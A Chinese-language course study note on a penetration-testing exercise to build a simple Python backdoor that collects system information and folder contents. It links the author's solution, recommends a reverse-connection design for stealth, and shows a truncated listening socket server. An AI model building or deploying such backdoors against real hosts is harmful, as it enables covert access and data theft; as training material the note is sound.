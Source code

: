 

## Backdoor - Exercise

后门 - 练习
我们希望您构建的是一个简单的 Python 后门（客户端和服务器），它允许您：

* 获取一些系统信息（您决定）

* 获取特定远程文件夹的一些内容

  

您可以使用以下模块来做到这一点：

Socket: https://docs.python.org/3/library/socket.html

OS: https://docs.python.org/3.3/library/os.html

Platform: https://docs.python.org/3/library/platform.html

**我个人写的源码：**[Backdoor - Exercise](https://github.com/r3kind1e/INE/tree/main/CYBER%20SECURITY/Penetration%20Testing%20Student/Penetration%20Testing%20Preliminary%20Skills%20%26%20Programming/Pentester%20Scripting%20-%20Study%20Guide/Backdoor%20-%20Exercise)

我的实现思路是：客户端获取本地的系统信息和文件夹内容，然后将结果发送到服务器。

而官方的实现思路是：客户端向服务器发送选项，而服务器实现选项对应的功能后，将结果返回给客户端。也就是说获取的是服务器的主机信息。

个人认为按照官方的实现思路，在目标主机上监听端口的操作过于敏感。相应的，让目标主机主动发起连接，而攻击者的主机进行监听会更好。



**Note**

多次运行一个示例，且每次执行之间等待时间过短，可能导致这个错误:

```
OSError: [Errno 98] Address already in use
```

这是因为前一次运行使套接字处于 `TIME_WAIT` 状态，无法立即重用。

要防止这种情况，需要设置一个 [`socket`](https://docs.python.org/zh-cn/3/library/socket.html#module-socket) 标志 `socket.SO_REUSEADDR`:

```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
```

`SO_REUSEADDR` 标志告诉内核将处于 `TIME_WAIT` 状态的本地套接字重新使用，而不必等到固有的超时到期。



**官方示例：**

**server.py**

```python
import socket, platform, os

SRV_ADDR = ""
SRV_PORT = 6666

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((SRV_ADDR, SRV_PORT))
s.listen(1)
connection, address = s.accept()
while 1:
    try:
        data = connection.recv(1024)
    except:continue

```